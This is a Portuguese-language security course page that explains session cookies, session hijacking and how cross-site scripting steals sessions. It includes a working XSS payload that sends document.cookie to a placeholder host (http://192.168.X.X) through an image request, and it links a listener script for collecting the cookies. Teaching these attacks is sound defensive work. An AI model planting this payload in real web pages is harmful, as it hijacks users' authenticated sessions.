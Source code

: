 ## Cookies

![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/pexels/sinmocx.jpg)

Toda conexão estabelecida entre o Cliente e o Servidor constitue uma **Sessão**, essa sessão é atribuida pelo servidor após execução do processo de conexão no formato "Three Way Handshake" comentado no começo do curso, possuindo uma numeração de identificação baseado em uma tabela chave valor armazenada no servidor, seu uso entre outras funções permite ao servidor identificar o usuário que esta executando a conexão. essa informação também é conhecida pelo Browser do usuária sendo recebida do servidor em uma resposta que chamamos de **Cookie**;

Podemos verificar a existência de Cookies de sessão inspecionando os elementos da Guia Network no acesso a qualquer página web:

![alt tag](https://github.com/fiapsecdevops/classroom/raw/master/content/images/7.3cookiesFiap.png)

Verifique que neste caso temos o item Cookie com um número de identificação da sessão. Esse número é único e assim será diferente para qualquer outra sessão aberta, faça teste executando o mesmo procedimento a partir de outro Brownser por exemplo ou em uma janela Anônima.

### O conceito de sequestro de sessão:

Ataques baseados em sequestro de sessão utilizam mecanismos de exploits baseados na tentativa de controle dos cookies e tokens de acesso em sessões de usuários, quando essas sessões envolvem autenticação prévia, ou seja roubando a sessão estamos executando um by pass na autenticação e recebendo acesso a páginas e conteúdos que supostamente só deveriam ser acessíveis aos usuários autenticados.

Um token de sessão é normalmente composto por uma string de largura variável e pode ser usado de diferentes maneiras, como na URL, no cabeçalho da requisição http como um cookie ( Modelo que vimos a pouco ), ou em outras partes do cabeçalho ou corpo da requisição http.

Utilizando código JavaScript um Cookie de sessão pode ser obtindo da seguinte forma:

```sh
<script>
alert(document.cookie);
</script>
```

> Neste caso trata-se do Cookie de sua própria sessão o que ainda não configura um processo de sequestro de sessão propriamente dito;

***Como o XSS se relaciona ao Sequestro de Sessão?***

O ponto onde o Cookie de sessão e a exploração de XSS baseado em Javascript se encontram é exatamente no resgate e envio dessa informação a terceiros, uma vez que um usuário esteja em uma área autenticada, o cookie de sessão é uma informação preciosa que utilizado da maneira certa permitiria o acesso ao conteúdo autenticado "simulando" estar na sessão do usuário, Existem certas formas de obter essa informação o principio basico por trás da maioria delas é forçar a execução de código pelo Browser do usuário de forma que o próprio usuário entregue a informação sem perceber;

***Demonstração de roubo de sessão:*** 

No exemplo abaixo utilizaremos uma imagem como base para conseguir isso, essa imagem será seguida pela requisição de acesso ao cookie do usuário:

```sh
Hi Everone...
<script>
var imagem=new Image();
imagem.src="http://192.168.X.X?"+document.cookie;
</script>
```

Na demonstração acima temos o campo "http://192.168.X.X" com endereço do host que receberá o cookie enviado pelo browser e a propriedade ***?"+[document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)*** utilizada para recuperar o cookie associado a sessão no momento em que executamos um GET no conteúdo do blog;

> Para que alguma ação baseada no conceito acima seja bem sucedida será necessário que no endereço de destino o host seja preparado para receber a informação enviada pelo brownser dos usuários que acessaram a página com o código XSS implementado, isso pode ser feito de "N" formas, usando webservers ou aplicações simples como um [script python](https://github.com/fiapfiap/Sec/blob/master/scripts/listen.py);

### Material de Referência

Boa parte dessa aula baseia-se em uma publicação de Prakhar Prasad pela editora Packt:

* [Livro, Mastering Modern Web Penetration Testing](https://www.packtpub.com/networking-and-servers/mastering-modern-web-penetration-testing)


O curso da [Alura](https://www.alura.com.br/curso-online-seguranca-web-vulnerabilidades-do-seu-sistema) ta alguns conceitos muito legais sobre sequestro de sessão e XSS usando como base a plataforma OWASP:

* [Curso Segurança Web: Vulnerabilidades do seu sistema e OWASP
](https://cursos.alura.com.br/course/seguranca-web-vulnerabilidades-do-seu-sistema)


Detalhamento Técnico sobre a propriedade document.cookie fornecida pelo MDN:

* [Document.cookie](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie)

---

**Free Software, Hell Yeah!**

